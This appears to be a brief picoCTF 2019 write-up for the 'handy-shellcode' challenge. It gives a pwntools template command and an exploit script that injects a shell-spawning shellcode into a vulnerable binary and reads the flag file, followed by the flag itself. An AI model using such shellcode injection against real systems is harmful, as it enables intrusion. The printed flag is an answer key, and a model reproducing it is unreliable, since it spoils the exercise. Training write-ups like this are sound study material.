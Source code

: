 ## Using the pwntools template cli

```console
pwn template --host 2019shell1.picoctf.com --user ${PICOUSER} --pass ${PICOPASS} --path /problems/handy-shellcode_0_24753fd2c78ac1a60682f0c924b23405/vuln
```

### Mods in the end of the exploit.py generated

```python
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

io = start()

io.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
io.sendlineafter(
    '$ ', 'cat /problems/handy-shellcode_0_24753fd2c78ac1a60682f0c924b23405/flag.txt')

io.close()
```

## Flag

picoCTF{h4ndY_d4ndY_sh311c0d3_ce07e7f1}
